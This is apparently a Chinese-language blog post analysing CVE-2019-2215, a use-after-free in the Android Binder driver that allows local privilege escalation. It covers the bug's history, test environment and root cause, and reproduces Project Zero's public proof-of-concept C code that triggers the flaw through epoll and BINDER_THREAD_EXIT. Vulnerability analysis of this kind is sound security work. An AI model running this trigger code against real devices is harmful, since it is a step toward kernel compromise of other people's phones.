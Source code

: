 ```yaml
---
title: "CVE-2019-2215分析利用记录"
date: 2020-06-30T01:15:26+08:00
draft: false
categories:
- CVE
- Android提权
- 漏洞分析
tags:
- 
- 
description: 
---
```


### 0x00 前言

[CVE-2019-2215](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-2215)最初是由syzbot(syzkaller bot)在2017年发现的一个[bug](https://groups.google.com/forum/#!msg/syzkaller-bugs/QyXdgUhAF50/eLGkcwk9AQAJ)，在2018年初该bug被修复，没有分配CVE编号，但是该补丁没有向后移植到许多已发布的设备上,比如Pixel和pixel2。

**Project Zero**的**Maddie Stone (@maddiestone)**根据Google的威胁情报小组（TAG）的情报报告再次发现的该bug，她在2019年9月报告了该[漏洞](https://bugs.chromium.org/p/project-zero/issues/detail?id=1942)。TAG确认其已用于现实攻击中，TAG表示该漏洞利用可能跟一家出售漏洞和利用工具的以色列公司NSO有关，随后NSO集团发言人公开否认与该漏洞存在任何关系。

### 0x01 分析环境

- Android avd api29 x86_64
- kernel：q-goldfish-android-goldfish-4.14-dev commit id `7a3cee43e935b9d526ad07f20bf005ba7e74d05b`
- pixel Android 10 kernel 3.18

### 0x02 漏洞分析

漏洞为内核上Bind IPC的一个UAF漏洞，成功利用可本地提权，无需进行任何交互，已被恶意软件利用。

#### 原理分析

先看一个project-zero公开的[poc](https://bugs.chromium.org/p/project-zero/issues/detail?id=1942)

```c
/* 
binder_poll() passes the thread->wait waitqueue that
can be slept on for work. When a thread that uses
epoll explicitly exits using BINDER_THREAD_EXIT,
the waitqueue is freed, but it is never removed
from the corresponding epoll data structure. When
the process subsequently exits, the epoll cleanup
code tries to access the waitlist, which results in
a use-after-free. 
*/
#include <fcntl.h>
#include <sys/epoll.h>
#include <sys/ioctl.h>
#include <stdio.h>
#define BINDER_THREAD_EXIT 0x40046208ul

int main() {
    int fd, epfd;
    struct epoll_event event = {.events = EPOLLIN};

    fd = open("/dev/binder", O_RDONLY);
    epfd = epoll_create(1000);
    epoll_ctl(epfd, EPOLL_CTL_ADD, fd, &event); //[1]
    ioctl(fd, BINDER_THREAD_EXIT, NULL); //[2]
}
```
